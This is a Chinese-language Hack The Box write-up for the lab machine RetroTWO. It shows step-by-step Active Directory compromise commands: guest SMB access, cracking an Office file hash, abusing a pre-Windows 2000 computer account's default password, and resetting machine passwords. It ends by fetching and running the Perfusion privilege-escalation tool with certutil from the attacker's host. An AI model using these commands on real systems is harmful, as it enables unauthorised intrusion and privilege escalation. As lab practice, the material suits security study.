## RetroTWO

Windows

在HTB的Pwnbox,kali开启openvpn,以及win11之间来回跳，目标ip有所改变。
#### Pwnbox 信息收集
#### kali 开启bloodhoud查看目标windowns域关系图
#### win11 挂载Microsoft Office的.img ｜ 使用VS生成.exe程序
攻击命令很逻辑点单，使用的工具真复杂，花上了接近一个星期。
### 1.信息收集

```
echo 'IP retro2.vl' | sudo tee -a /etc/hosts'
```

出现 BLN01.retro2.vl
#### 尝试使用 guest 账户、空密码连接目标 SMB 服务，并列出可用共享及访问权限
```
$ nxc smb 10.129.86.138 -u 'guest' -p '' --shares
```
```
$ impacket-smbclient guest@retro2.vl -no-pass
# use Public
# ls
# tree

# get /DB/staff.accdb  //下载到本地
# exit
```
```
$ office2john staff.accdb 
staff.accdb:$office$*2013*100000*256*16*5736cfcbb054e749a8f303570c5c1970*1ec683f4d8c4e9faf7
7d3c01f2433e56*7de0d4af8c54c33be322dbc860b68b4849f811196015a3f48a424a265d018235
```
关键字为:$office$\*2013\*

### 2.在Windowns上挂载ProfessionalRetail.img,查看staff.accdb数据

#### 把staff.accdb拉到Windowns

双击.img



#### staff文件需要密码，下面是破解密码：
#### 从受密码保护的 Microsoft Office 文件中提取哈希值

#### https://hashcat.net/wiki/doku.php?id=example_hashes


#### MS Office 2013的哈希模式为9600
```
$ cp /usr/share/wordlists/rockyou.txt.gz .
$ gunzip -d rockyou.txt.gz
```


#### staff文件需要密码为:class08
输入密码后，我们查看文件的Visual Basic内容，在其中找到Active用于LDAP认证的目录凭据

retro2\ldapreader 密码为“ppYaVcB5R"

#### 用 NetExec 连接 LDAP 服务,-u用户名；BLN01.retro2.vl → 目标域控主机名（FQDN，需要能解析）
```
$ nxc ldap BLN01.retro2.vl -u 'ldapreader' -p 'ppYaVcB5R'
```


### 3.在kali下载Bloodhound
https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart
```
//下载 Linux ARM64：
$ curl -L -o bloodhound-cli-linux-arm64.tar.gz \
https://github.com/SpecterOps/bloodhound-cli/releases/latest/download/bloodhound-cli-linux-arm64.tar.gz

$ sudo curl -L "https://github.com/docker/compose/releases/latest/download/docker-compose-linux-aarch64" -o /usr/local/bin/docker-compose

$ sudo chmod +x /usr/local/bin/docker-compose

$ sudo /usr/lib/systemd/systemd-sysv-install enable docker

$ sudo ./bloodhound-cli up
$ sudo ./bloodhound-cli install

//于此同时是连接这靶机sudo openvpn lab.opvn
```

在浏览器上127.0.0.1登录，用户为admin，密码为上图;会提示修改过期密码。
### 4.收集 Active Directory 的对象信息，包括用户、组、计算机以及它们之间的权限关系
带有域控BLN01的域名retro.vl需要加上-ns IP ,才能解析出地址；

区别如图

#### 用 ldapreader 账号，通过指定的 DNS 服务器 10.129.79.204 解析并连接到域控 BLN01.retro2.vl，收集整个 retro2.vl 域的所有信息，最后打包成一个 zip 文件给 BloodHound 分析
```
$ bloodhound-python -u 'ldapreader' -p 'ppYaVcB5R' -d retro2.vl --zip -c All -dc BLN01.retro2.vl -ns 10.129.79.204
```

生成了bloodhound.zip文件，上传到 BloodHound 的 Web 界面进行可视化分析，从而查看域内所有用户、组以及他们的归属关系

### 5.使用Bloodhound查看域内成员关系
在File Ingest上传

在旁边竖条的Group Management展开关系图

有两台GenericWrite提供了“读取权限”对象 ｜ 有一台AddSelf可以添加成员

攻击思路：
将ADMWS01加入SERVICES组
通过RDP访问本地系统，利用SERVICES组的成员资格
现在的问题是，我们如何进入FS01账户？


发现该计算机帐户是windows 2000之前的兼容访问组成员

### 6.攻击之路

https://medium.com/@offsecdeer/finding-weak-ad-computer-passwords-e3dc1ed220df
在网上搜索这方面的信息时，它解释了计算机创建的的SamAccountName的密码，帐户用小写减去美元符号
```
$ nxc smb BLN01.retro2.vl -u 'fs01$' -p 'fs01'
```


#### 改密码
```
$ wget https://raw.githubusercontent.com/api0cradle/impacket/a1d0cc99ff1bd4425eddc1b28add1f269ff230a6/examples/rpcchangepwd.py

$ python3 rpcchangepwd.py retro2.vl/fs01\$:fs01@10.129.245.212 -newpass Roguel

$ nxc smb BLN01.retro2.vl -u 'fs01$' -p 'Roguel'

$ net rpc password 'ADMWS01$' Roguel -U retro2.vl/'fs01$'%Roguel -S BLN01.retro2.vl

$ nxc smb BLN01.retro2.vl -u 'ADMWS01$' -p 'Roguel'
```
```
//第四句解析

net rpc password → 用 RPC 协议修改密码 |'ADMWS01$' → 目标账号名（这里是一个计算机账户，末尾的 $ 说明是机器账户）| Roguel → 要设置的新密码

-U → 指定登录凭据 | retro2.vl/ → 域名 | 'fs01$' → 用来认证的账户（也是个机器账户） | %Roguel → 这个账户的密码

-S → 指定要连接的服务器（目标 DC 或能处理密码修改的机器） | BLN01.retro2.vl → 目标服务器主机名
```
#### 上瑞士军刀 加入服务器
```
$ git clone https://github.com/CravateRouge/bloodyAD
$ cd bloodyAD
$ pip install .

$ bloodyAD --host 10.129.245.212 -d retro2.vl -u 'ADMWS01$' -p 'Roguel' add groupMember 'SERVICES' 'ldapreader'
```

#### 进入windowns
```
$ xfreerdp /u:'ldapreader' /p:'ppYaVcB5R' /v:10.129.245.212 /d:retro2.vl /tls-seclevel:0
```
### 7.在windowns使用VS让.sln生成.exe
https://github.com/itm4n/Perfusion

#### 在windowns上的Visual Studio 2022,克隆https://github.com/itm4n/Perfusion.git
#### 打开Developer Command Prompt for VS，可以执行smbuild命令生成Perfusion.exe

```
> msbuild Perfusion.sln /p:Configuration=Release /p:Platform=x64

//本靶机需要的是x64
```



```
//虚拟机win11 | 传送
> pyhton -m http.server 89  //在windowns不使用python3
//Mac本机 | 接收
% curl http://IP:89/Perfusion.exe -o Perfusion.exe
```
#### 从本机 -> HTB Pwnbox: https://limewire.com
##### 点击share，复制url

##### 在HTB Pwnbox 的浏览器粘贴下载
#### 继续
#### 从HTB Pwnbox靶机 -> 靶机使用bloodyAD打开的windowns
```
$ ls
Perfusion.exe
$ python3 -m http.server 87


PS C:\Users\ldapreader> certutil.exe -urlcache -f http://10.10.14.53:87/Perfusion.exe Perfusion.exe

PS C:\Users\ldapreader> .\Perfusion.exe -c cmd -i
```

#### 在执行.\Perfusion.exe -c cmd -i 之前
##### C:\Users\administrator当前会话的权限不够，无法读取管理员用户目录的内容

#### 在执行.\Perfusion.exe -c cmd -i 之后



